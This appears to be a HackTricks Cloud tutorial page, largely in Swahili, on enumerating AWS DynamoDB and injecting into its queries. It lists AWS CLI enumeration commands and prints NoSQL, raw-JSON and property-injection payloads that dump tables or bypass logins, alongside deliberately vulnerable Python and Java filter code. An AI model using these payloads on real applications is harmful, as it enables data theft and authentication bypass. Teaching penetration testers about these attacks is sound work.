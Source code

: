 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB inawasilishwa na AWS kama **hifadhidata ya NoSQL isiyo na seva, inayosimamiwa kikamilifu, ya funguo-thamani**, iliyoundwa kwa ajili ya kuendesha programu zenye utendaji wa juu bila kujali ukubwa wao. Huduma hii inahakikisha vipengele thabiti ikiwa ni pamoja na hatua za usalama zilizojengwa ndani, nakala za usalama zisizokatizwa, nakala za kiotomatiki katika maeneo mbalimbali, uhifadhi wa data wa ndani, na zana rahisi za kusafirisha data.

Katika muktadha wa DynamoDB, badala ya kuunda hifadhidata ya jadi, **meza zinaanzishwa**. Kila meza inahitaji kufafanua **funguo ya sehemu** kama sehemu muhimu ya **funguo ya msingi ya meza**. Funguo hii ya sehemu, ambayo kimsingi ni **thamani ya hash**, ina jukumu muhimu katika upatikanaji wa vitu na usambazaji wa data kati ya wenyeji mbalimbali. Usambazaji huu ni muhimu kwa kudumisha upanuzi na upatikanaji wa hifadhidata. Aidha, kuna chaguo la kuingiza **funguo ya kupanga** ili kuboresha zaidi shirika la data.

### Encryption

Kwa kawaida, DynamoDB inatumia funguo ya KMS ambayo **ni ya Amazon DynamoDB,** hata si funguo inayosimamiwa na AWS ambayo angalau inamilikiwa na akaunti yako.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Inawezekana **kuandaa** uzalishaji wa **nakala za meza** au kuziunda kwa **mahitaji**. Aidha, inawezekana pia kuwezesha **Urejeleaji wa wakati (PITR) kwa meza.** Urejeleaji wa wakati unatoa **nakala** za data zako za DynamoDB kwa **siku 35** ili kusaidia kulinda dhidi ya shughuli za kuandika au kufuta zisizokusudiwa.

Pia inawezekana kusafirisha **data ya meza kwenda S3**, lakini meza inahitaji kuwa na **PITR imewezeshwa**.

### GUI

Kuna GUI kwa huduma za Dynamo za ndani kama [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), nk, ambazo zinaweza kuwa na manufaa: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Upatikanaji Usioidhinishwa

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Baada ya Kutekeleza

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Kudumu

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Injection

### SQL Injection

Kuna njia za kufikia data za DynamoDB kwa kutumia **sintaksia ya SQL**, hivyo basi, **injections za SQL za kawaida pia zinaweza**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Injection

Katika DynamoDB masharti tofauti yanaweza kutumika kupata data, kama katika NoSQL Injection ya kawaida ikiwa inawezekana **kuunganisha masharti zaidi ili kupata** data unaweza kupata data iliyofichwa (au kupakua jedwali lote).\
Unaweza kupata hapa masharti yanayoungwa mkono na DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Kumbuka kwamba **masharti tofauti** yanayoungwa mkono ikiwa data inafikiwa kupitia **`query`** au kupitia **`scan`**.

{% hint style="info" %}
Kwa kweli, hatua za **Query** zinahitaji kubainisha **sharti "EQ" (sawa)** katika **funguo** ya **msingi** ili kufanya kazi, na kufanya iwe **hatarishi kidogo kwa NoSQL injections** (na pia kufanya operesheni hiyo kuwa na mipaka sana).
{% endhint %}

Ikiwa unaweza **kubadilisha kulinganisha** kunakofanywa au kuongeza mpya, unaweza kupata data zaidi.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Raw Json injection

{% hint style="danger" %}
**Uthibitisho huu unategemea dynamodb Scan Filter ambayo sasa imeondolewa!**
{% endhint %}

**DynamoDB** inakubali **Json** vitu ili **kutafuta** data ndani ya DB. Ikiwa unapata kuwa unaweza kuandika katika kitu cha json kilichotumwa kutafuta, unaweza kufanya DB dump, maudhui yote.

Kwa mfano, kuingiza katika ombi kama: 

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

mshambuliaji anaweza kuingiza kitu kama:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

sahihisha hali ya "EQ" ikitafuta ID 1000 na kisha kutafuta data zote zikiwa na mfuatano wa Id kubwa zaidi ya 0, ambayo ni yote.

Mfano mwingine **ulio hatarini ukitumia kuingia** unaweza kuwa:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Hii itakuwa na hatari ya:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Baadhi ya SDKs zinaruhusu kutumia mfuatano unaoashiria uchujaji utakaofanywa kama: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Unahitaji kujua kwamba kutafuta katika DynamoDB kwa **kubadilisha** **thamani** ya **sifa** katika **maelezo ya filtr** wakati wa kusoma vitu, tokeni zinapaswa **kuanza** na herufi ya **`:`**. Tokeni kama hizo zitakuwa **zinabadilishwa** na **thamani halisi ya sifa wakati wa wakati wa kutekeleza**.

Hivyo, kuingia kama ile ya awali inaweza kupuuziliwa mbali na kitu kama:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
